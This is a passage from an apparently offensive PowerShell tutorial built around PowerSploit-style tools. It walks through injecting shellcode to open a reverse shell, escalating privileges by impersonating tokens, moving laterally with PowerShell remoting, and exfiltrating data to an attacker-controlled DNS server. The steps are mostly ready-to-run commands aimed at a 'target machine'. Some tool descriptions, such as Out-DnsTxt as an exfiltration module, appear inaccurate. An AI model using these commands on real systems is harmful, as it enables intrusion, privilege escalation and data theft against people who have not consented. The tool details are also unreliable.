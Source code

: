 Next, use the following command to execute the generated shellcode on the target machine:

```powershell
Invoke-Shellcode -Shellcode 'YOUR_GENERATED_SHELLCODE' -Force
```

This command will inject the shellcode into the PowerShell process and establish a reverse shell connection to your specified IP address and port.

### Privilege Escalation via Token Manipulation

In this example, we’ll use PowerSploit’s `Invoke-TokenManipulation` module to escalate our privileges on a compromised system. First, use the “Find” action to search for processes running as an administrator:

```powershell
Invoke-TokenManipulation -Enumerate
```

If a suitable process is found, use the “Impersonate” action to impersonate the process’s token:

```powershell
Invoke-TokenManipulation -ImpersonateUser -Username "TARGET_USERNAME"
```

This command will impersonate the specified user’s token, effectively escalating your privileges.

### Lateral Movement with PowerShell Remoting

In this example, we’ll use PowerShell remoting, a feature available by default on Windows systems, to move laterally across a network. First, use PowerSploit’s Get-NetComputer module to enumerate computers in the domain:

```powershell
Get-NetComputer -Filter *
```

Once you have identified a target computer, use the following command to establish a remote PowerShell session:

```powershell
Enter-PSSession -ComputerName "TARGET_COMPUTER"
```

Now, you can execute PowerShell commands on the target computer as if you were running them locally.

### Data Exfiltration Using DNS

In this example, we’ll use PowerSploit’s Out-DnsTxt module to exfiltrate data from a compromised system using DNS. First, ensure that your DNS server is set up to log incoming DNS queries. Then, use the following command to exfiltrate data:

```powershell
Out-DnsTxt -Data "SENSITIVE_DATA" -DnsServer "YOUR_DNS_SERVER"
```

This command will encode the specified data as a base64 string and send it to your DNS server using TXT records.